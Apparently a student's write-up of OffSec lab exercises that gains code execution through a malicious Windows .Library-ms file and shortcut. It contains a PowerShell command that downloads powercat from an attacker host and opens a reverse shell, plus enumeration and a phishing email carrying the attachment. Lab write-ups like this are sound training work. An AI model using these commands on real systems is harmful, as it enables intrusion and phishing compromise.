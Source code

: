 1. Follow the steps in this section to get code execution on the _HR137_ (VM Group 1 - VM #2) system by using library and shortcut files. Be aware that after every execution of a **.lnk** file from the WebDAV share, the library file from the SMB share will be removed. You can find the flag on the desktop of the _hsmith_ user. You can use VM #1 of VM Group 1 to build the library file and shortcut.

```bash
# VM #1: 192.168.223.194
# VM #2: 192.168.223.195

# Connecting via FreeRDP
xfreerdp /v:192.168.223.194 /u:offsec /p:lab /dynamic-resolution /drive:/usr/share/Kali,.
# Full payload in .Library-ms file
```
```xml

<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
    <name>@windows.storage.dll,-34582</name>
    <version>6</version>
    <isLibraryPinned>true</isLibraryPinned>
    <iconReference>imageres.dll,-1003</iconReference>
    <templateInfo>
        <folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
    </templateInfo>
    <searchConnectorDescriptionList>
        <searchConnectorDescription>
            <isDefaultSaveLocation>true</isDefaultSaveLocation>
            <isSupported>false</isSupported>
            <simpleLocation>
                <url>http://192.168.45.250</url>
            </simpleLocation>
        </searchConnectorDescription>
    </searchConnectorDescriptionList>
</libraryDescription>
```
```bash
# PS command
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.250:8000/powercat.ps1');
powercat -c 192.168.45.250 -p 4444 -e powershell"

# Running python server
python -m http.server 8000
nc -lvnp 4444

# Push a command via SMB to a distant system
smbclient //192.168.223.195/share -c 'put config.Library-ms'

# Our "config" file is read, and opened ;)
```
![[Pasted image 20250317192750.png]]

3. **Capstone Lab**: Enumerate the _ADMIN_ (VM Group 2 - VM #4) machine and find a way to leverage Windows library and shortcut files to get code execution. Obtain a reverse shell and find the flag on the desktop for the _Administrator_ user. You can use VM #3 of VM Group 2 to prepare your attack.

```bash
# VM #3: 192.168.223.194
# VM #4: 192.168.223.199

# Enumeration
sudo nmap -sV -sC -v 192.168.223.199
	# OS: Windows
	# 80: HTTP
	# Mail Server running (25, 110 (POP3), 143 (IMAP), 587)
	# 5985: HTTP
	# 445: SMB
	# 135 & 139: RPC & NetBios

# Nothing found on the HTTP websites. Trying to send an email directly

# Getting more info on the SMTP server
ls /usr/share/nmap/scripts/ | grep smtp
	# Found a smtp-ntlm-info.nse script

# Running it
sudo nmap -sV -p 25 --script "smtp-enum-users" 192.168.223.199

# Trying different bruteforce directory attacks on the web servers
gobuster dir -u http://192.168.223.199:80 -w /usr/share/wordlists/dirb/common.txt
gobuster dir -u http://192.168.223.199:5985 -w /usr/share/wordlists/dirb/common.txt
	# Nothing found, trying to go on the email route again

# This SMTP command takes years
nmap --script smtp-* -p 25,465,587 192.168.223.199
	# Nothing found again :(

# Trying the smb server
nmap --script smb-enum-* -p 445 192.168.223.199
	# Nothing

# Trying pop3
ls /usr/share/nmap/scripts/ | grep pop
nmap --script pop3-capabilities -p 110 192.168.223.199
	# Nothing

# Trying to send an email directly
swaks --to info@192.168.223.199 --from local-user@192.168.45.250 --server 192.168.223.199 --header "Subject: test" --body "hello"
	# Nope

# Connecting to the email server directly 
telnet 192.168.223.199 25
	
# With anohter tool
sendEmail -t info@192.168.223.199 -f techsupport@bestcomputers.com -s 192.168.223.199 -u "Important Upgrade Instructions"
	# Neither
	
# Trying a better gobuster
gobuster dir -u 192.168.223.199 -w /usr/share/wordlists/dirb/common.txt -t 10 -x pdf
	# Found info.pdf

# Finding meta data
exiftool -a -u info.pdf
	# Found a user called Dave Wizard

# Reading the PDF, they say emails are firstname.lastname@supermagicorg.com
# They also mention a test@supermagicorg.com user with password test

# Trying to send email again
sendEmail -t test@supermagicorg.com -f techsupport@bestcomputers.com -s 192.168.223.199 -u "Important Upgrade Instructions" -a jaja.txt
	# Seems like it works!

# Sending an email, with attachment, using the test user we foud earlier
sendEmail -t dave.wizard@supermagicorg.com -f test@supermagicorg.com -s 192.168.223.199 -u "Important Upgrade Instructions" -a config.Library-ms -o message-file=mail-content.txt username=test@supermagicorg.com password=test

# At some point, they open the email and the attachment ;)
```